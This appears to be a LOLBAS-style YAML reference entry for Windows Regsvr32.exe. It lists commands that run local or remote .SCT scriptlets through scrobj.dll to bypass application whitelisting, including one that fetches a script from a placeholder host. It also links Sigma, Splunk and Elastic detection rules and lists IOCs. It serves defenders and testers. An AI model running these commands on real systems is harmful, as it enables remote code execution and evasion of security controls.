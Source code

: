 ```yaml
---
Name: Regsvr32.exe
Description: Used by Windows to register dlls
Author: 'Oddvar Moe'
Created: 2018-05-25
Commands:
  - Command: regsvr32 /s /n /u /i:http://example.com/file.sct scrobj.dll
    Description: Execute the specified remote .SCT script with scrobj.dll.
    Usecase: Execute code from remote scriptlet, bypass Application whitelisting
    Category: AWL Bypass
    Privileges: User
    MitreID: T1218.010
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
    Tags:
      - Execute: SCT
      - Execute: Remote
  - Command: regsvr32.exe /s /u /i:file.sct scrobj.dll
    Description: Execute the specified local .SCT script with scrobj.dll.
    Usecase: Execute code from scriptlet, bypass Application whitelisting
    Category: AWL Bypass
    Privileges: User
    MitreID: T1218.010
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
    Tags:
      - Execute: SCT
  - Command: regsvr32 /s /n /u /i:http://example.com/file.sct scrobj.dll
    Description: Execute the specified remote .SCT script with scrobj.dll.
    Usecase: Execute code from remote scriptlet, bypass Application whitelisting
    Category: Execute
    Privileges: User
    MitreID: T1218.010
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
    Tags:
      - Execute: SCT
      - Execute: Remote
  - Command: regsvr32.exe /s /u /i:file.sct scrobj.dll
    Description: Execute the specified local .SCT script with scrobj.dll.
    Usecase: Execute code from scriptlet, bypass Application whitelisting
    Category: Execute
    Privileges: User
    MitreID: T1218.010
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
    Tags:
      - Execute: SCT
Full_Path:
  - Path: C:\Windows\System32\regsvr32.exe
  - Path: C:\Windows\SysWOW64\regsvr32.exe
Detection:
  - Sigma: https://github.com/SigmaHQ/sigma/blob/6312dd1d44d309608552105c334948f793e89f48/rules/windows/process_creation/proc_creation_win_regsvr32_susp_parent.yml
  - Sigma: https://github.com/SigmaHQ/sigma/blob/6312dd1d44d309608552105c334948f793e89f48/rules/windows/process_creation/proc_creation_win_regsvr32_susp_child_process.yml
  - Sigma: https://github.com/SigmaHQ/sigma/blob/6312dd1d44d309608552105c334948f793e89f48/rules/windows/process_creation/proc_creation_win_regsvr32_susp_exec_path_1.yml
  - Sigma: https://github.com/SigmaHQ/sigma/blob/6312dd1d44d309608552105c334948f793e89f48/rules/windows/process_creation/proc_creation_win_regsvr32_network_pattern.yml
  - Sigma: https://github.com/SigmaHQ/sigma/blob/c04bef2fbbe8beff6c7620d5d7ea6872dbe7acba/rules/windows/network_connection/net_connection_win_regsvr32_network_activity.yml
  - Sigma: https://github.com/SigmaHQ/sigma/blob/c04bef2fbbe8beff6c7620d5d7ea6872dbe7acba/rules/windows/dns_query/dns_query_win_regsvr32_network_activity.yml
  - Sigma: https://github.com/SigmaHQ/sigma/blob/c04bef2fbbe8beff6c7620d5d7ea6872dbe7acba/rules/windows/process_creation/proc_creation_win_regsvr32_flags_anomaly.yml
  - Sigma: https://github.com/SigmaHQ/sigma/blob/6312dd1d44d309608552105c334948f793e89f48/rules/windows/file/file_event/file_event_win_net_cli_artefact.yml
  - Splunk: https://github.com/splunk/security_content/blob/86a5b644a44240f01274c8b74d19a435c7dae66e/detections/endpoint/detect_regsvr32_application_control_bypass.yml
  - Elastic: https://github.com/elastic/detection-rules/blob/82ec6ac1eeb62a1383792719a1943b551264ed16/rules/windows/defense_evasion_suspicious_managedcode_host_process.toml
  - Elastic: https://github.com/elastic/detection-rules/blob/12577f7380f324fcee06dab3218582f4a11833e7/rules/windows/execution_register_server_program_connecting_to_the_internet.toml
  - IOC: regsvr32.exe retrieving files from Internet
  - IOC: regsvr32.exe executing scriptlet (sct) files
  - IOC: DotNet CLR libraries loaded into regsvr32.exe
  - IOC: DotNet CLR Usage Log - regsvr32.exe.log
Resources:
  - Link: https://pentestlab.blog/2017/05/11/applocker-bypass-regsvr32/
  - Link: https://oddvar.moe/2017/12/13/applocker-case-study-how-insecure-is-it-really-part-1/
  - Link: https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1218.010/T1218.010.md
Acknowledgement:
  - Person: Casey Smith
    Handle: '@subtee'
---
```

